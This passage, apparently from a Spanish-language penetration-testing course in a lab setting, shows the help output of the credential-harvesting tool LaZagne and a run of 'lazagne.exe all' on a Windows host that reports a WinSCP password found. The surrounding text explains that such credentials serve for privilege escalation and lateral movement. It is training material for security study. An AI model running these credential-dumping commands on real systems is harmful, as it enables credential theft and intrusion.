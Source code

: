 ```r
PS C:\htb> .\lazagne.exe -h

usage: lazagne.exe [-h] [-version]
                   {chats,mails,all,git,svn,windows,wifi,maven,sysadmin,browsers,games,multimedia,memory,databases,php}
                   ...
				   
|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

positional arguments:
  {chats,mails,all,git,svn,windows,wifi,maven,sysadmin,browsers,games,multimedia,memory,databases,php}
                        Choose a main command
    chats               Run chats module
    mails               Run mails module
    all                 Run all modules
    git                 Run git module
    svn                 Run svn module
    windows             Run windows module
    wifi                Run wifi module
    maven               Run maven module
    sysadmin            Run sysadmin module
    browsers            Run browsers module
    games               Run games module
    multimedia          Run multimedia module
    memory              Run memory module
    databases           Run databases module
    php                 Run php module

optional arguments:
  -h, --help            show this help message and exit
  -version              laZagne version
```

### Running All LaZagne Modules

Como podemos ver, hay muchos módulos disponibles para nosotros. Ejecutar la herramienta con `all` buscará aplicaciones compatibles y devolverá cualquier credencial en texto claro descubierta. Como podemos ver en el ejemplo a continuación, muchas aplicaciones no almacenan credenciales de manera segura (lo mejor es nunca almacenar credenciales, ¡en absoluto!). Pueden recuperarse fácilmente y usarse para escalar privilegios localmente, moverse a otro sistema o acceder a datos sensibles.

```r
PS C:\htb> .\lazagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

########## User: jordan ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
```